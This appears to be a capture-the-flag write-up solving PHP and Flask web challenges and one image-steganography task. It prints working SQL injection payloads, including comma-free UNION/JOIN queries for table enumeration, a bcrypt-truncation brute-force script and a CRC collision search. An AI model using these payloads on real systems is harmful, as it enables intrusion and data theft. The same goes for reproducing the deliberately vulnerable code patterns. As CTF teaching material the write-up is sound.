


# Summary

## Web
- [Paginator](#paginator)
- [Paginator v2](#paginator-v2)
- [Numberizer](#numberizer)
- [Bfail](#bfail)
- [Crahp](#crahp)

## Steganography
- [Profound toughts](#profound-toughts)

# Paginator

The website is a simple PHP application that allows you to query "pages". It has a pagination feature that allow to query multiple pages at once by using the `p` parameter with the following format: `?p=$MIN,$MAX`.



By looking at the source code available we can see 3 interesting things:

1. The flag is stored in the content of the page of ID 1:

```php
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Flag', '" . base64_encode($FLAG) . "')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  ...
```

2. The only protection against querying the flag is checking if the min page is greater than 1:

```php
[$min, $max] = explode(",",$_GET['p']);
if(intval($min) <= 1 ) {
    die("This post is not accessible...");
}
```

3. The inputs are not sanitized and passed directly to the SQLite query, especially the $max which is never checked:

```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
$result = $db->query($q);
```

## Exploitation

The exploit is an easy SQLi that consists in passing to the `p` parameter the following value:

```
2,10%20OR%201=1
```

This will result in the following values:

```php
$min = '2';
$max = '10 OR 1=1';
```

So the server will interpret the query as:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR 1=1
```

Querying all the pages, including the one with ID 1, which contains the flag:
 


The flag is encoded in base64, cecoding it gives us:

flag: ***ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}***

---

# Paginator v2


Pretty much the same as the first one but this time, by looking at the source code, we can one big difference: The flag is in another table

```php
include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
```

Otherwise, the same logic and checking is done.

We also know that the SQL engine is SQLite, so we can use the `sqlite_master` table to get the name of the tables and columns. This will be useful later.

To be able to query the flag there are a few steps:

1. Know the name of the table that contains the flag.
2. Know the name of the columns in that table.
3. Know the content of the columns.


## Problem

By trying a few SQLi, we can see a pretty annoying problem: We cannot use commas :/

This is because the `p` parameter is split by commas and the first part is used as the min value and the second part as the max value. So trying a payload like:

```
2,10 UNION SELECT * FROM information_schema.tables
```

Won't work because the number of columns in the first part of the query must be the same as the number of columns in the second part and they must match names. And:

```
2,10 UNION SELECT table_name as title, 1 as id, 'abc' as content FROM information_schema.tables
```

Won't work either because the `p` parameter is split by commas, so the server will interpret it as: 

```
$min = '2'
$max = '10 UNION SELECT table_name as title'
```

## Solution

Reminder:
**We need to query a certain amount of columns without using commas**

This can be done by using the `JOIN` statement. By using the `JOIN` statement we can build multiple single column queries and join them together to create a multi-column query.

Example:

```sql
UNION SELECT title, id, content FROM pages
UNION (SELECT title FROM pages) JOIN (SELECT id FROM pages) as t2 JOIN (SELECT content FROM pages) as t3
```

This two queries will give the same result.

We can build our payload :)

### 1. Get the name of the table that contains the flag

Payload:
```
2,10 UNION SELECT * FROM (SELECT name as title FROM sqlite_master WHERE type='table')UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3
```

This will retrieve the name of all tables and append it to the result set. The `UT1`, `UT2` and `UT3` are just aliases to be able to join them together.
The `abc` and `1` are just dummy values to fill the columns.

This shows us this result:

```
...
Page 8 (ID=8) has content: "This is not a flag, but just a boring page."
Page 9 (ID=9) has content: "This is not a flag, but just a boring page."
Page 10 (ID=10) has content: "This is not a flag, but just a boring page."
1 (ID=flag) has content: "abc"
1 (ID=pages) has content: "abc"
```

**We can see that the table that contains the flag is called `flag`.**

### 2. Get the name of the columns in the flag table

With the same logic as before, we can get the name of the columns in the `flag` table:

```
2,10 UNION SELECT * FROM (SELECT name as title FROM PRAGMA_table_info('flag'))UT1 JOIN (SELECT 1 as id)UT2 JOIN (SELECT 'abc' as content)UT3
```

We use the `PRAGMA_table_info` command to get the name of the columns in the `flag` table. This will give us the following result:

```
...
Page 8 (ID=8) has content: "This is not a flag, but just a boring page."
Page 9 (ID=9) has content: "This is not a flag, but just a boring page."
Page 10 (ID=10) has content: "This is not a flag, but just a boring page."
1 (ID=id) has content: "abc"
1 (ID=name) has content: "abc"
1 (ID=value) has content: "abc"
```

**We can see that the columns are `id`, `name` and `value`.**

### 3. Get the content of the columns

This is the easiest part, just build a triple join query as before using the columns and table name we got before:

```
2,10 UNION SELECT * FROM (SELECT id as id FROM flag)UT1 JOIN (SELECT name as title FROM flag)UT2 JOIN (SELECT value as content FROM flag)UT3
```

Which gives us the following result:

```
Flag (ID=1) has content: "RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ=="
Page 2 (ID=2) has content: "This is not a flag, but just a boring page."
Page 3 (ID=3) has content: "This is not a flag, but just a boring page."
...
```

Once again, the flag is encoded in base64. Decoding it gives us the flag:

*ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}*

---

# Numberizer

The website is, once again, very simple. So here's a quick description:

- We have a form with 5 fields
- Each of these fields waits for a number
- Once sumbitted, the numbers will be summed up

The numbers are passed as strings and then converted to integers.

Two migigations are in place:

- Every numbers must numeric values and 4 characters long or less:
```php
if(!isset($_POST['numbers'][$i]) || strlen($_POST['numbers'][$i])>4 || !is_numeric($_POST['numbers'][$i])) {
    continue;
}
```

- Every number must be positive:
```php
$the_number = intval($_POST['numbers'][$i]);
if($the_number < 0) {
    continue;
}
```

Then, the goal is to get a negative sum at the end:
```php
if($sum < 0) {
    echo "You win a flag: $FLAG";
} else {
    echo "You win nothing with number $sum ! :-(";
}
```

This challenge looks either obvious or impossible depending on how much you know about PHP type conversion.

The trick here is that PHP understands scientific notation. So, for example, the number `1e-5` is interpreted as `0.00001` or `1e4` is interpreted as `10000`.

This can be used to make an integer overflow.

PHP numbers are 64-bit signed integers witch basically 1 bit for the sign and 63 for the number itself, so the maximum value is `2^63-1` or `9223372036854775807` which makes around `9.2e18`. Adding `1` to this number will make it overflow and become `-9223372036854775808` or `-9.2e18`.

So, if we can make the sum of the numbers greater than `9223372036854775807` we can make it overflow and become negative.
This can be done by using the scientific notation to make the numbers greater than `9223372036854775807` and then adding them up, example:

```
1e19 + 1e19 + 1e19 + 1e19 + 1e19 = 5e19
```

Inputting this in the form will give us a negative sum and the flag:

*ENO{INTVAL_IS_NOT_ALW4S_P0S1TiV3!}*

---

# Bfail

The challenge is just a login page with a username and password.

The goal is to login as `admin`.

We have access to the source code of the application, which is a Flask application. The code is as follows:

```python
from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16); # This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway... 
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt()) 
# >>> strongpw[:71] #b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();

@app.route('/source')
def source():
    return open(__file__).read()
        
@app.route('/', methods=["GET"]) 
def index(): 
    username = request.form.get("username", None)
    password = request.form.get("password", None)
    if username and password:
        username = urllib.parse.unquote_to_bytes(username) 
        password = urllib.parse.unquote_to_bytes(password)
    if username != b"admin":
        return "Wrong user!"
    if len(password) > 128: 
        return "Password too long!"
    if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
        return "Wrong password!" 
    return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}""" # Use f-string formatting within the template string template_string = """
```

So the password is hashed using bcrypt and the hash is stored in the `ADMIN_PW_HASH` variable.

The password is a string made of 128 random bytes, with the first 71 bytes given in the source code.

The naive way to brute-force this would be to try all the possible combinations of the remaining 57 bytes, which is `2^(57*8)` or `1.4e137` combinations. This is not really possible to do in a reasonable time (and would get me banned for DoS tentative probably).

But, after some reseach, I found out that even if it can accept a password of 128 bytes, bcrypt hash only uses the first 72 bytes of the password.

Since the first 71 bytes are given in the source code, we can just brute-force the last byte of the password, which is `2^8` or `256` combinations. This is much more reasonable and can be done in a few seconds.

So here's the code to brute-force the password:

```python
import requests

pass_71_head = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
charcodes = [pass_71_head[i] for i in range(0, len(pass_71_head))]
hexs = [hex(i) for i in charcodes]

urlencoded = "".join([chr(i) for i in charcodes])

charset = []
for i in range(0x20, 0xff):
    charset.append(bytes([i]))

conn_uri = "http://52.59.124.14:5013/"

def try_pass(password):
    x = requests.request("GET", conn_uri, data={'username': 'admin', 'password': password}, headers={"Content-Type": "application/x-www-form-urlencoded"})
    return (x.text != "Wrong password!", x.text)

for i in charset:
    result, text = try_pass(pass_71_head + i)
    if result:
        print(text)
        break
```

This will just send up to 256 requests to the server, each one with a different password. The server will respond with the flag if the password is correct.

Result (after a few seconds):
```
Congrats! It appears you have successfully bf'ed the password. Here is your ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}
```

flag: *ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}*

---

# Crahp

This challenge is a simple page asking for a password, with a link to the source code.

## Source code

```php

ini_set("error_reporting", 0);
ini_set("display_errors",0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}


// https://www.php.net/manual/en/function.crc32.php#28012
function crc16($string) {
  $crc = 0xFFFF;
  for ($x = 0; $x < strlen ($string); $x++) {
    $crc = $crc ^ ord($string[$x]);
    for ($y = 0; $y < 8; $y++) {
      if (($crc & 0x0001) == 0x0001) {
        $crc = (($crc >> 1) ^ 0xA001);
      } else { $crc = $crc >> 1; }
    }
  }
  return $crc;
}


// https://stackoverflow.com/questions/507041/crc8-check-in-php/73305496#73305496
function crc8($input)
{
$crc8Table = [
    0x00, 0x07, 0x0E, 0x09, 0x1C, 0x1B, 0x12, 0x15,
    0x38, 0x3F, 0x36, 0x31, 0x24, 0x23, 0x2A, 0x2D,
    0x70, 0x77, 0x7E, 0x79, 0x6C, 0x6B, 0x62, 0x65,
    0x48, 0x4F, 0x46, 0x41, 0x54, 0x53, 0x5A, 0x5D,
    0xE0, 0xE7, 0xEE, 0xE9, 0xFC, 0xFB, 0xF2, 0xF5,
    0xD8, 0xDF, 0xD6, 0xD1, 0xC4, 0xC3, 0xCA, 0xCD,
    0x90, 0x97, 0x9E, 0x99, 0x8C, 0x8B, 0x82, 0x85,
    0xA8, 0xAF, 0xA6, 0xA1, 0xB4, 0xB3, 0xBA, 0xBD,
    0xC7, 0xC0, 0xC9, 0xCE, 0xDB, 0xDC, 0xD5, 0xD2,
    0xFF, 0xF8, 0xF1, 0xF6, 0xE3, 0xE4, 0xED, 0xEA,
    0xB7, 0xB0, 0xB9, 0xBE, 0xAB, 0xAC, 0xA5, 0xA2,
    0x8F, 0x88, 0x81, 0x86, 0x93, 0x94, 0x9D, 0x9A,
    0x27, 0x20, 0x29, 0x2E, 0x3B, 0x3C, 0x35, 0x32,
    0x1F, 0x18, 0x11, 0x16, 0x03, 0x04, 0x0D, 0x0A,
    0x57, 0x50, 0x59, 0x5E, 0x4B, 0x4C, 0x45, 0x42,
    0x6F, 0x68, 0x61, 0x66, 0x73, 0x74, 0x7D, 0x7A,
    0x89, 0x8E, 0x87, 0x80, 0x95, 0x92, 0x9B, 0x9C,
    0xB1, 0xB6, 0xBF, 0xB8, 0xAD, 0xAA, 0xA3, 0xA4,
    0xF9, 0xFE, 0xF7, 0xF0, 0xE5, 0xE2, 0xEB, 0xEC,
    0xC1, 0xC6, 0xCF, 0xC8, 0xDD, 0xDA, 0xD3, 0xD4,
    0x69, 0x6E, 0x67, 0x60, 0x75, 0x72, 0x7B, 0x7C,
    0x51, 0x56, 0x5F, 0x58, 0x4D, 0x4A, 0x43, 0x44,
    0x19, 0x1E, 0x17, 0x10, 0x05, 0x02, 0x0B, 0x0C,
    0x21, 0x26, 0x2F, 0x28, 0x3D, 0x3A, 0x33, 0x34,
    0x4E, 0x49, 0x40, 0x47, 0x52, 0x55, 0x5C, 0x5B,
    0x76, 0x71, 0x78, 0x7F, 0x6A, 0x6D, 0x64, 0x63,
    0x3E, 0x39, 0x30, 0x37, 0x22, 0x25, 0x2C, 0x2B,
    0x06, 0x01, 0x08, 0x0F, 0x1A, 0x1D, 0x14, 0x13,
    0xAE, 0xA9, 0xA0, 0xA7, 0xB2, 0xB5, 0xBC, 0xBB,
    0x96, 0x91, 0x98, 0x9F, 0x8A, 0x8D, 0x84, 0x83,
    0xDE, 0xD9, 0xD0, 0xD7, 0xC2, 0xC5, 0xCC, 0xCB,
    0xE6, 0xE1, 0xE8, 0xEF, 0xFA, 0xFD, 0xF4, 0xF3
];

    $byteArray = unpack('C*', $input);
    $len = count($byteArray);
    $crc = 0;
    for ($i = 1; $i <= $len; $i++) {
        $crc = $crc8Table[($crc ^ $byteArray[$i]) & 0xff];
    }
    return $crc & 0xff;
}

$MYPASSWORD = "AdM1nP@assW0rd!";
include "flag.php";

if(isset($_POST['password']) && strlen($MYPASSWORD) == strlen($_POST['password'])) {
    $pwhash1 = crc16($MYPASSWORD);
    $pwhash2 = crc8($MYPASSWORD);

    $password = $_POST['password'];
    $pwhash3 = crc16($password);
    $pwhash4 = crc8($password);

    if($MYPASSWORD == $password) {
        die("oops. Try harder!");
    }
    if($pwhash1 != $pwhash3) {
        die("Oops. Nope. Try harder!");
    }
    if($pwhash2 != $pwhash4) {
        die("OoOps. Not quite. Try harder!");
    }
    $access = true;
 
    if($access) {
        echo "You win a flag: $FLAG";
    } else {
        echo "Denied! :-(";
    }
} else {
    echo "Try harder!";
}
?>
```

We can see that the goal is to find a password that will pass the following checks:

- The password must be the same length as the original password
- The password crc16 hash must be the same as the original password crc16 hash
- The password crc8 hash must be the same as the original password crc8 hash
- The password must be different from the original password

With the original password being `AdM1nP@assW0rd!`.

I don't really know if there is a cryptographic way to do this, but there is a probabilistic way...

crc16 and crc8 are both hash functions but have a pretty high chance of collision. So we can just brute-force the password until we find a password that will pass the checks.

To be sure that the hashing functions match, I coded the bruteforce in php to reuse the same hashing functions as the server.

```php
/* .... Server code .... */
$MYPASSWORD = "AdM1nP@assW0rd!";
$passlen = strlen($MYPASSWORD);

$CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$step = 0;

$cs1 = crc16($MYPASSWORD);
$cs2 = crc8($MYPASSWORD);

echo "Starting brute force\n";
echo "CRC16: $cs1\n";
echo "CRC8: $cs2\n";

while($step < 1000000){
    $try = substr(str_shuffle($CHARSET), 0, $passlen);
    if(crc16($try) == $cs1 && crc8($try) == $cs2){
        echo "Found: $try\n";
        break;
    }
    $step++;
}
echo "Brute force finished\n";
```

This will try 1000000 random passwords of the same length as the original password and check if the crc16 and crc8 hashes match.

This code is pretty fast (~5 seconds) but do not guarantee a result.

After a few tries, I got the following password:
```
N0jk4BeRnpJQS5K
```

And after trying it on the server, I got this result:
```
You win a flag: ENO{Cr4hP_CRC_Collison_1N_P@ssw0rds!}
```

flag: *ENO{Cr4hP_CRC_Collison_1N_P@ssw0rds!}*

---


# Profound toughts

The challenge goal is to find the flag inside of an image.

To be honest, I didn't even open the image. I just looked at its name `l5b245c11.png` and immediately thought of the LSB (becasue of the `l5b` part) which is a common technique to hide data inside of images.

I used this tool: https://stylesuxx.github.io/steganography/

And with the decode option, I got the flag.

flag: *ENO{57394n09r4phy_15_w4y_c00l3r_7h4n_p0rn06r4phy}*


